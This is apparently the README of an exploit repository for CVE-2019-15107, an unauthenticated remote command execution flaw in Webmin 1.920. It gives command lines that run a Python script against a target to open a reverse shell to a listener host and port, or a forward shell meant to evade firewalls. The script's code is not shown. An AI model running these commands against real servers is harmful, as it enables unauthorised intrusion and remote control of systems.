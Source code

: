 # Project Title

CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution

## Description

A python3 script for the CVE-2019-15107 Webmin 1.920 Unauhenticated Remote Command Execution that <br> 
creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 webmin.py -t https://webmin.site/ -lhost 127.0.0.1 -lport 9001
```
<br>
* For forward shell firewall evasion
```
python3 webmin.py -t https://webmin.site/ -fs
```

## Help

For help menu:
```
python3 webmin.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.